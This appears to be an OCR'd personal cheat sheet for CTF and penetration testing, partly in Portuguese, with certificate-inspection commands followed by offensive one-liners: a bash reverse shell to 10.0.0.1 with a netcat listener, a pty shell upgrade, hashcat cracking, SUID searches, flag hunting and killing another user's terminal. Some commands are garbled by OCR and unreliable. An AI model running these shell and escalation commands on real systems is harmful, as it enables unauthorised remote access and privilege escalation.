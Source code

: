 
Examine and verify the certificate and check for Self-Signed:
    # openssl x509 -text -in <CERT>.pem
    # openssl x509 -in <CERT>,pem -noout -issuer - subject -startdate -enddate -fingerprint
    # openssl verify <CERT>.pem

Extract Certificate Server Name:
# tshark -nr <PCAP FILE NAME> -Y "ssl. handshake. ciphersuites" -Vx I grep "Server Name:" | sort | uniq -c | sort -r

Extract Certificate info for analysis:
    # ssldump -Nr <FILE NAME>.pcap | awk 'BEGIN {c=0;}  { if ($0 ~ /^[ ]+Certificate$/) {c=l; print
"========================================";} if
($0 !~/^ +/) {c=0;} if (c==l) print $0; }' 




$ hashcat -m <type> -a 3 -o result.txt  cript.txt


python3 -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
Ctrl + z
stty raw -echo;fg

# SEMPRE EXECUTAR COM  rlwrap  PARA EVITAR BUGS QUANDO USAR AS SETINHAS E DEMAIS COISAS
 $ rlwrap nc -lnvp 4444
 $ bash -i >& /dev/tcp/10.0.0.1/4242 0>&1


find / -type f \( -perm -4000 -o -perm -2000 \) -print


 # USEFUL TO FIND FLAGS
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null



pkill -9 -t pts/1    # Mata o terminal do coleguinha
